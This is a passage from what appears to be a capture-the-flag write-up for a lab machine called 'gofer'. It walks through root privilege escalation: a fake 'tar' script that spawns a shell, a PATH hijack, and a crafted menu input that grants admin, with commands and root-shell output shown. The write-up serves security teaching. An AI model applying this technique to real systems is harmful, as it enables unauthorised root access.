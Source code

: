     
    
    tbuckley@gofer:~$ strings /usr/local/bin/notes | grep 'tar '
    tar -czvf /root/backups/backup_notes.tar.gz /opt/notes
    

#### Path Hijack

The good news for me is that it is calling `tar` without a full path, which
means I can likely hijack `tar`.

I’ll go into `/dev/shm` and create my own `tar` file:

    
    
    #!/bin/bash
    
    bash -i
    

This literally just drops into an interactive Bash shell. I’ll make sure to
make `tar` executable.

I’ll update my `$PATH` variable for my current session:

    
    
    tbuckley@gofer:/dev/shm$ echo $PATH
    /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
    tbuckley@gofer:/dev/shm$ export PATH=.:$PATH
    tbuckley@gofer:/dev/shm$ echo $PATH
    .:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
    

Now the current directory is the first item in the path.

From here, it’s just running the following steps:

  1. Start `notes`
  2. Option 1 to create a user.
  3. Option 3 to delete the user.
  4. Option 4 with a note of “Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin” to set myself admin.
  5. Optionally I can verify that worked with option 2.
  6. Option 8 to run `tar`.

It works:

    
    
    Your choice: 8
    
    Access granted!
    root@gofer:/dev/shm#
    

I can grab `root.txt`:

    
    
    root@gofer:/root# cat root.txt
    1321cf4c************************
    

## Beyond Root
